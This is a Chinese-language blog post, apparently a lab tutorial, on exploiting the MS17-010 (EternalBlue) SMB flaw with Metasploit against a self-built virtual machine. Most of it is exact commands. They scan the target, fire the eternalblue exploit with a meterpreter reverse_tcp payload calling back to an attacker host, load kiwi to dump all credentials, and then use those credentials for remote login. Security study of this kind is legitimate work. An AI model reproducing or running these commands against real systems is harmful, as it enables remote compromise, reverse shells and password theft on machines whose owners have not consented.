 ```yaml
---
layout: post
title: MS17-010漏洞测试
categories: Security
description: MS17-010漏洞测试
keywords: MS17-010
---
```


> 2017年写的文档了，最近都会整理出来放在blog存着。

## 0x00 说明

> 本文仅作为技术学习研究使用，所涉及服务器均为自己搭建虚拟机。
## 0x01 启动Metasploit Framework

```shell
root@kali:~# msfconsole -q	#-q 安静模式
```
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-1.jpg)

![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-2.jpg)

## 0x02 查找所需模块，本次使用ms17010漏洞模块
```shell
msf > search ms17010
```
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-3.jpg)
- auxiliary/scanner/smb/smb_ms17_010 为探测模块
- exploit/windows/smb/ms17_010_eternalblue 为利用模块
> 当然现在模块更多了，需要的大佬自己去看。
## 0x03 利用探测模块确认漏洞是否存在
```shell
msf > use auxiliary/scanner/smb/smb_ms17_010
msf auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.0.106
msf auxiliary(scanner/smb/smb_ms17_010) > run
```
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-4.jpg)
结果显示存在漏洞
## 0x04 使用exp挂载payload进行利用
配置exp及payload
```shell
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.0.106
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 172.16.79.72
msf exploit(windows/smb/ms17_010_eternalblue) > exploit
```
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-6.jpg)
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-7.jpg)
## 0x05 执行成功，获取shell
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-c.jpg)
## 0x06 利用kiwi模块获取密码
```shell
meterpreter > load kiwi
meterpreter > creds_all
```
成功读取密码。
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-c.jpg)
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-c.jpg)
## 0x07 远程登陆成功
利用密码远程登陆服务器成功。
![](https://raw.githubusercontent.com/Minggle/image/main/image/ms17010-c.jpg)